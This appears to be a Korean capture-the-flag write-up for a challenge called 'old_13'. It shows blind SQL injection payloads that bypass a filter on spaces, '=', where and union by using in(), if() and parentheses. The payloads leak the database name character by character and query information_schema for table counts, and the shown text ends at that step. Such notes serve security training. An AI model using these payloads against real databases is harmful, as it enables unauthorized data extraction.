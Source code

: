 ## old_13

filter : union, #, *, limit, like, 논리/비교연산자, +, -, 공백문자, where ...etc

select id from chall13 where no=if( ,1,0)

if(( )in(),1,0)

![chrome_KWeFLMHC9D](https://user-images.githubusercontent.com/79683414/145674374-a0c31535-c703-4994-afbb-19e9d0cff6f6.png)

'='이 필터링 되므로 'in'사용

in : or 여러개

ex) where number in (1,3,5,7,9) / where number in (select ~~)



데이터 베이스명 알아내기(길이>1글자씩)

if(length(database())in(7),1,0)

if(substr(database(),1,1)in("c"),1,0) > 실패

if(ord(substr(database(),1,1))in(99),1,0)

if(ord(substr(database(),7,1))in(51),1,0)

chall13 = 99,104,97,108,108,49,51



아래와 같은 쿼리를 날리고 싶을 때,

select id from test where flag=123123;

where 이 필터링 되므로 `if()`을 사용,

=> select if(flag=123123,id,null) from test;

"=" 이 필터링 되므로 `in()` 을 사용,

=> select if(flag in (123123), id,null) from test;

공백이 필터링 되므로 `()`을 사용,

=> select(if((flag)in(123123),id,null))from(test);



테이블명 알아내기

select table_name from information_schema.tables where table_schema="chall13";

`select table_name` , `where table_schema="chall13"`

=>if(table_schema in (database()), table_name, 0) 

= if((table_schema)in(database(),table_name,0))

최종적으로,

select(if((table_schema)in(database(),table_name,0)))from(information_schema.tables) : table_name 을 반환

select(count(위의 쿼리)) 를 날리면 "chall13"데이터베이스에 몇 개의 테이블이 존재하는지 확인할 수 있다.



테이블 개수 확인

if((select(count(if((table_schema)in(database()),table_name,0)))from(information_schema.tables))in(2),1,0)

